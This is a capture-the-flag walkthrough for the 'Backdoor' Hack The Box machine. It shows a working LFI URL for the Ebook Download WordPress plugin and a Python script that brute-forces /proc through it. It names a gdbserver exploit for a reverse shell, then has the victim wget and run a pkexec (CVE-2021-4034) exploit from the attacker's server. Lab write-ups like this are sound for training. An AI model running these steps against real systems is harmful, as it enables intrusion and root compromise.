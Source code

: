 ![Header](screenshots/header.png)

## Enumeration

The IP is 10.10.11.125, I will add it to **/etc/hosts**:

![/etc/hosts/ picture](screenshots/etc-hosts.png)

Let's start off by enumerating the open ports:

```bash
$ nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts

# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.125 ()   Status: Up
Host: 10.10.11.125 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///   Ignored State: closed (65532)
```
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a **nmap** script to list the services and their versions that are running on each open port
  
```bash
$ nmap -p22,80,1337 -sCV backdoor.htb -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using **wfuzz**:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

The subdirectory **wp-content** is not visible to us,**wp-includes** contains the plugins and themes, although we can't see the contents of the files.
Playing around with **wp-admin** there doesn't seem to be any default credentials set.

So, knowing that we are dealing with **Wordpress **as the CMS, we can try running **wpscan** to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

```bash
$ wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable version of the plugin **Ebook Download**. If we search for it on **searchsploit**, we fill find an exploit with **id 39575**.
I will download it on my computer using:

`$ searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Local File Inclusion,
using the following url, where **path** is a valid route in the target machine.

> http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=[path]

We can list running processes using the path /proc/[PID]/cmdline, where pid is a valid process ID.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called **gdbserver** running on the open port 1337:
  
```bash
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on **searchsploit** we will find a vulnerability with **id 50539**.
If we run it and follow the instructions provided, we can get a reverse shell as **user** and view the flag.

![whoami output](screenshots/foothold.png)

## Privilege Escalation
Once we are inside the victim's machine, we can enumerate binaries with the SUID permission set:

```bash
user@Backdoor:/home/user$ find / -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

We can see that the binary **pkexec** is available, which has been compromised recently under the **CVE-2021-4034** vulnerability.
There are many exploits out there, I have used [this one](https://github.com/Almorabea/pkexec-exploit).
Now it's simply a matter of setting up a Python server so you can share the file with the victim's machine and run it.

```
$ python3 -m http.server 80
```

```
user@Backdoor:/home/user$ wget 10.10.16.43:80/CVE-2021-4034.py
user@Backdoor:/home/user$ python3 CVE-2021-4034.py
```

Just like that, we have become **root**:
![Root screenshot](screenshots/root.png)
